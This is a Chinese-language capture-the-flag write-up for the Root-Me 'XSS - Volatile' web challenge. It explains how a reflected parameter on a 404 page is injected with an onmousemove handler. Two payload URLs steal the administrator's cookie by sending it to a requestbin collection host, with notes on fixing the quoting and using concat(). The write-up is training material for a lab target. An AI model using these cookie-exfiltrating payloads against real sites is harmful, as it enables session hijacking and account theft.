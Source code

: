 Root-Me [XSS - Volatile](https://www.root-me.org/fr/Challenges/Web-Client/XSS-Volatile)
===

題目頁面比較類似真實營運中的網站。

## 提示訊息
```
Trouvez le moyen de voler le cookie de l’administrateur.
Attention, cet administrateur est sensibilisé à la sécurité et il est possible qu’il ne clique pas sur des liens étranges.
```

## 解題關鍵
1. JavaScript

## 解題方法
在服務上找到聯絡功能，感覺是唯一的注入點，可以填寫 `名稱`、`Email`、`訊息`，但經過嘗試之後，得不到任何回饋...
，故可能是個幌子，而在 `menu` 的原始碼區段中發現 `<!--li><a href="?p=security">Security</a></li-->`，有個頁面為 `Security` 網址為 `?p=security`，卻是個 404 頁面。  

![](img/01.png)

但嘗試將 `p=security` 改成其他的參數，404 頁面上的 `The page ${p} could not be found.` 也會相對改變，沒錯! 這就是注入點。  

如何運用該弱點來讓管理者上鉤呢? 首先該 404 有回報功能，所以建構惡意的 URL 在將 404 內容回報即可，但問題出在如何建構。  

![](img/02.png)

該 URL 的 `p` 呈現的位置是一個超連結，可以運用截斷，並增加 `<a href>` 的 JavaScript 事件來達成手法，可以選用 `onmousemove`(當滑鼠滑過)來觸發。

```
http://challenge01.root-me.org/web-client/ch26/?p=x' onmousemove='document.location="http://requestbin.fullcontact.com/12qlilf1?cookie=" %2b document.cookie
```

但發現沒有成功將資料回傳到 `requesbin` 上，為了簡化問題，先把後方的 cookie 部分拿掉，試試看管理員究竟有沒有觸發該 XSS。  

結果還是沒有成功，發現問題在於 Payload 最後方需要加上 `"` 雙引號做結尾，雖然自己觸發的時候會動，但送出去後，管理員就是不會觸發。  

加上最後的單引號後能解決不回傳至 `requesbin` 的問題，但解決不了 `cookie` 回傳的問題，這時候必須要捨棄掉 `%2b`（+） 的用法，改用 `concat()` 來將 URL 與 cookie 拼接起來，如下，解決該題。

```
http://challenge01.root-me.org/web-client/ch26/?p=x' onmousemove='document.location="http://requestbin.fullcontact.com/12qlilf1?cookie=".concat(document.cookie)
```

## 授權聲明
[![copyright © 2019 By MksYi](https://img.shields.io/badge/copyright%20©-%202019%20By%20MksYi-blue.svg)](https://mks.tw/)
[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)